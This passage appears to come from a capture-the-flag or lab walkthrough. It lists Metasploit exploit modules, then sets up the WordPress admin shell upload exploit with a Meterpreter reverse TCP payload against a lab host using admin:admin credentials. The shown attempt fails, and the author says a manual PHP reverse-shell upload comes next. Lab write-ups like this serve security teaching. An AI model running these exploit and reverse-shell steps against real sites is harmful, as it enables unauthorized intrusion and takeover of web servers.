   7   exploit/freebsd/local/rtld_execl_priv_esc                      2009-11-30       excellent  Yes    FreeBSD rtld execl() Privilege Escalation
   8   auxiliary/scanner/kademlia/server_info                                          normal     No     Gather Kademlia Server Information
   9   exploit/unix/webapp/joomla_akeeba_unserialize                  2014-09-29       excellent  Yes    Joomla Akeeba Kickstart Unserialize Remote Code Execution
   10  exploit/windows/fileformat/ms12_005                            2012-01-10       excellent  No     MS12-005 Microsoft Office ClickOnce Unsafe Object Package Handling Vulnerability
   11  exploit/unix/webapp/php_xmlrpc_eval                            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution
   12  exploit/unix/http/pihole_dhcp_mac_exec                         2020-03-28       good       Yes    Pi-Hole DHCP MAC OS Command Execution
   13  exploit/linux/misc/quest_pmmasterd_bof                         2017-04-09       normal     Yes    Quest Privilege Manager pmmasterd Buffer Overflow
   14  exploit/windows/http/sws_connection_bof                        2012-07-20       normal     Yes    Simple Web Server Connection Header Buffer Overflow
   15  exploit/multi/php/wp_duplicator_code_inject                    2018-08-29       manual     Yes    Snap Creek Duplicator WordPress plugin code injection
   16  exploit/multi/http/wp_db_backup_rce                            2019-04-24       excellent  Yes    WP Database Backup RCE
   17  exploit/windows/fileformat/winrar_name_spoofing                2009-09-28       excellent  No     WinRAR Filename Spoofing
   18  post/windows/gather/credentials/razer_synapse                                   normal     No     Windows Gather Razer Synapse Password Extraction
   19  exploit/multi/http/wp_ait_csv_rce                              2020-11-14       excellent  Yes    WordPress AIT CSV Import Export Unauthenticated Remote Code Execution
   20  exploit/unix/webapp/wp_admin_shell_upload                      2015-02-21       excellent  Yes    WordPress Admin Shell Upload
   21  auxiliary/gather/wp_all_in_one_migration_export                2015-03-19       normal     Yes    WordPress All-in-One Migration Export
   22  exploit/unix/webapp/wp_asset_manager_upload_exec               2012-05-26       excellent  Yes    WordPress Asset-Manager PHP File Upload Vulnerability
   23  auxiliary/scanner/http/wordpress_login_enum                                     normal     No     WordPress Brute Force and User Enumeration Utility
   24  auxiliary/scanner/http/wordpress_cp_calendar_sqli              2015-03-03       normal     No     WordPress CP Multi-View Calendar Unauthenticated SQL Injection Scanner
   25  auxiliary/scanner/http/wp_chopslider_id_sqli                   2020-05-12       normal     No     WordPress ChopSlider3 id SQLi Scanner
```

<p></p>
Looking through the results number 20 looks interesting, lets find out some more info on it using the following command:
<p></p>

```
info 20
```

<p></p>
Which outputs:
<p></p>

```
msf6 > info 20

       Name: WordPress Admin Shell Upload
     Module: exploit/unix/webapp/wp_admin_shell_upload
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-02-21

Provided by:
  rastating

Available targets:
  Id  Name
  --  ----
  0   WordPress

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD                    yes       The WordPress password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the wordpress application
  USERNAME                    yes       The WordPress username to authenticate with
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module will generate a plugin, pack the payload into it and 
  upload it to a server running WordPress providing valid admin 
  credentials are used.
```

<p></p>
We can see the description at the bottom of the output and this looks like it could be useful so lets use it, to do this we enter the following command:
<p></p>

```
use 20
```

<p></p>
next we are presented with a changed command line so we need to enter 'show options' and are presented with the following:
<p></p>

```
msf6 > use 20
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.125.135  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /secret          yes       The base path to the wordpress application
   USERNAME   admin            yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.125.134  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress
```

<p></p>
Yours will have blank space next to most of the fields, IOT change them you need to enter set + feild + value ie.
<p></p>

```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password admin
password => admin

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 192.168.125.135
rhosts => 192.168.125.135

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /secret
targeturi => /secret

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
username => admin

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 192.168.125.134
lhost => 192.168.125.134
```

<p></p>
Then simply enter exploit and hopefully you are presented with a shell instead of an error.
<p></p>


```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 192.168.125.134:4444 
[*] Authenticating with WordPress using admin:admin...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Acquired a plugin upload nonce: 4f8184143b
[-] Failed to upload plugin AFyvBhdZph
[-] Exploit aborted due to failure: unexpected-reply: Failed to upload the payload
[*] Exploit completed, but no session was created.
```

<p></p>
But hey, this is why you have different tools in your arsenel because your normal methods may not always work, so I will show you how to do a simple php reverse shell upload and hopefully we can get in that way (if msf worked for you congrats, read through the following if you want otherwise skip to the next part), BTW dont close msf yet, we will still need it to catch our reverse shell.














</details>